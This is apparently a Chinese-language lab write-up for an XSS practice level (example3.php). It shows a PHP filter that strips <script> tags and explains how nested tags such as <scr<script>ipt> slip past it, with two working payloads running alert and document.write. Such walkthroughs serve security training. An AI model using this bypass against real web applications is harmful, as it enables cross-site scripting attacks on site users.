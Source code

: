 # xss3

进入example3.php

直接查看源码
```php
<?php
    $name = $_GET['name'];
    $name = preg_replace('/<script>/i', "", $name);
    $name = preg_replace('/<\/script>/i', "", $name);
?>
```

这一次使用了/i来进行正则大小写忽略
但是呢这preg_replace一个函数只会对值扫描一次
扫描一次过后就会执行下一段代码了
所以这一次可以使用嵌套的方式进行绕过
就是说它检测到一次\<script>之后就对值进行替换为空值剩下的
就是\<script>了
第二条同理

payload1
```javascript
example3.php?name=<scr<script>ipt>alert('hello xss')</scr</script>ipt>
```
![img](../../../image/xss/3334133115849.png)
这样就可以绕过了
payload2
```javasecript
example3.php?name=<scr<script>ipt>document.write('hello xss')</scr</script>ipt>
```
![img](../../../image/xss/4350636111603.png)

:D\~~过关~~